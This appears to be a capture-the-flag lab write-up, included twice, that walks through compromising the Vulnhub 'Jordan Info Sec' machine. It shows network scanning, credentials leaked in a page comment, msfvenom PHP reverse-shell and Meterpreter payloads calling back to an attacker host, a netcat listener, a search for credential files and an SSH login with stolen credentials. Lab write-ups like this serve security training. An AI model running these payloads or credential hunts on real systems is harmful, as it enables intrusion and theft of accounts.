

# Jordan Info Sec CTF

## Enumeration 

### NMAP 

Explore the Network by ping Scan 

```shell
root@kali:~# nmap -F 10.0.2.0/24
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-13 04:22 EST
Nmap scan report for 10.0.2.24
Host is up (0.00017s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:68:18:58 (Oracle VirtualBox virtual NIC)
```

NMAP Aggressive Scan 
```shell
root@kali:~# nmap -A -O -sV  10.0.2.24
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-13 04:24 EST
Nmap scan report for 10.0.2.24
Host is up (0.00026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
MAC Address: 08:00:27:68:18:58 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.26 ms 10.0.2.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.03 seconds
```
### Port 80 
Checking Web page 

So Lets check the **robots.txt**
```shell
User-agent: *
Disallow: /
Disallow: /backup
Disallow: /admin
Disallow: /admin_area
Disallow: /r00t
Disallow: /uploads
Disallow: /uploaded_files
Disallow: /flag
```
Lets Check these Directories 

Going to http://10.0.2.24/flag/
```shell
The 1st flag is : {8734509128730458630012095}
```
 /admin , /backup , /r00t , /uploads
```
Not Found

The requested URL /admin was not found on this server.
Apache/2.4.18 (Ubuntu) Server at 10.0.2.24 Port 80
```
http://10.0.2.24/admin_area/
```html
<html>
<head>
<title>
Fake admin area :)
</title>
<body>
<center><h1>The admin area not work :) </h1></center>
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
</body>
</html>
```
http://10.0.2.24/uploaded_files/ has empty page so lets use username and password to login to the form 

After i logged in I have this Screen


## Exploitation 

Lets Craft PHP Shell 

```shell
root@kali:~# msfvenom -p php/reverse_php LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3017 bytes

```
Setting up the Handler 

```shell
root@kali:~# nc -lvvnp 4444
listening on [any] 4444 ...
```
Navigate to http://10.0.2.24/uploaded_files/shell.php

```shell

$ cd ..
$ ls
    admin_area
    assets
    check_login.php
    css
    flag
    flag.txt
    hint.txt
    index.php
    js
    login.php
    logout.php
    robots.txt
    uploaded_files
$ cat flag.txt
$ cat hint.txt
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)

The 3rd flag is : {7645110034526579012345670}

$ pwd
/var/www/html
```
the shell is not stable so I will try meterpreter shell 

```shell
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/met_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1109 bytes
```

Setting up the Handler
```shell
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
```
call this link http://10.0.2.24/uploaded_files/met_shell.php

```shell
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
[*] Sending stage (37775 bytes) to 10.0.2.24
[*] Meterpreter session 1 opened (10.0.2.7:4444 -> 10.0.2.24:33224) at 2019-01-13 05:02:57 -0500

meterpreter > 
```
so lets go back where we left it says the username and password are stored somewhere hidden so if we used **find** tool we can search for something like password.txt creds.txt and try some other regular expressions and you can use wild cards like ```*```

```shell
$ find / -name "cred*.txt" 2> /dev/null
/etc/mysql/conf.d/credentials.txt
```
**Side Note** i used /dev/null so I don't get a whole list for errors or permission denied 

so reading this file we have the following 
```shell
$ cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
```
Lets SSH and this user 

```shell
root@kali:~# ssh technawi@10.0.2.24 
The authenticity of host '10.0.2.24 (10.0.2.24)' can't be established.
ECDSA key fingerprint is SHA256:ThPvIGqyDX2PSqt5JWHyy/J/Hy2hK5aVcpKTpkTKHQE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.2.24' (ECDSA) to the list of known hosts.
technawi@10.0.2.24's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Fri Apr 21 17:22:16 2017
technawi@Jordaninfosec-CTF01:~$ 
```
lets try to read /var/www/html/flag.txt
```shell
technawi@Jordaninfosec-CTF01:~$ cat /var/www/html/flag.txt 
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
```
# Jordan Info Sec CTF

## Enumeration 

### NMAP 

Explore the Network by ping Scan 

```shell
root@kali:~# nmap -F 10.0.2.0/24
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-13 04:22 EST
Nmap scan report for 10.0.2.24
Host is up (0.00017s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:68:18:58 (Oracle VirtualBox virtual NIC)
```

NMAP Aggressive Scan 
```shell
root@kali:~# nmap -A -O -sV  10.0.2.24
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-13 04:24 EST
Nmap scan report for 10.0.2.24
Host is up (0.00026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
MAC Address: 08:00:27:68:18:58 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.26 ms 10.0.2.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.03 seconds
```
### Port 80 
Checking Web page 

So Lets check the **robots.txt**
```shell
User-agent: *
Disallow: /
Disallow: /backup
Disallow: /admin
Disallow: /admin_area
Disallow: /r00t
Disallow: /uploads
Disallow: /uploaded_files
Disallow: /flag
```
Lets Check these Directories 

Going to http://10.0.2.24/flag/
```shell
The 1st flag is : {8734509128730458630012095}
```
 /admin , /backup , /r00t , /uploads
```
Not Found

The requested URL /admin was not found on this server.
Apache/2.4.18 (Ubuntu) Server at 10.0.2.24 Port 80
```
http://10.0.2.24/admin_area/
```html
<html>
<head>
<title>
Fake admin area :)
</title>
<body>
<center><h1>The admin area not work :) </h1></center>
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
</body>
</html>
```
http://10.0.2.24/uploaded_files/ has empty page so lets use username and password to login to the form 

After i logged in I have this Screen


## Exploitation 

Lets Craft PHP Shell 

```shell
root@kali:~# msfvenom -p php/reverse_php LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3017 bytes

```
Setting up the Handler 

```shell
root@kali:~# nc -lvvnp 4444
listening on [any] 4444 ...
```
Navigate to http://10.0.2.24/uploaded_files/shell.php

```shell

$ cd ..
$ ls
    admin_area
    assets
    check_login.php
    css
    flag
    flag.txt
    hint.txt
    index.php
    js
    login.php
    logout.php
    robots.txt
    uploaded_files
$ cat flag.txt
$ cat hint.txt
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)

The 3rd flag is : {7645110034526579012345670}

$ pwd
/var/www/html
```
the shell is not stable so I will try meterpreter shell 

```shell
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/met_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1109 bytes
```

Setting up the Handler
```shell
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
```
call this link http://10.0.2.24/uploaded_files/met_shell.php

```shell
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
[*] Sending stage (37775 bytes) to 10.0.2.24
[*] Meterpreter session 1 opened (10.0.2.7:4444 -> 10.0.2.24:33224) at 2019-01-13 05:02:57 -0500

meterpreter > 
```
so lets go back where we left it says the username and password are stored somewhere hidden so if we used **find** tool we can search for something like password.txt creds.txt and try some other regular expressions and you can use wild cards like ```*```

```shell
$ find / -name "cred*.txt" 2> /dev/null
/etc/mysql/conf.d/credentials.txt
```
**Side Note** i used /dev/null so I don't get a whole list for errors or permission denied 

so reading this file we have the following 
```shell
$ cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
```
Lets SSH and this user 

```shell
root@kali:~# ssh technawi@10.0.2.24 
The authenticity of host '10.0.2.24 (10.0.2.24)' can't be established.
ECDSA key fingerprint is SHA256:ThPvIGqyDX2PSqt5JWHyy/J/Hy2hK5aVcpKTpkTKHQE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.2.24' (ECDSA) to the list of known hosts.
technawi@10.0.2.24's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Fri Apr 21 17:22:16 2017
technawi@Jordaninfosec-CTF01:~$ 
```
lets try to read /var/www/html/flag.txt
```shell
technawi@Jordaninfosec-CTF01:~$ cat /var/www/html/flag.txt 
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
```
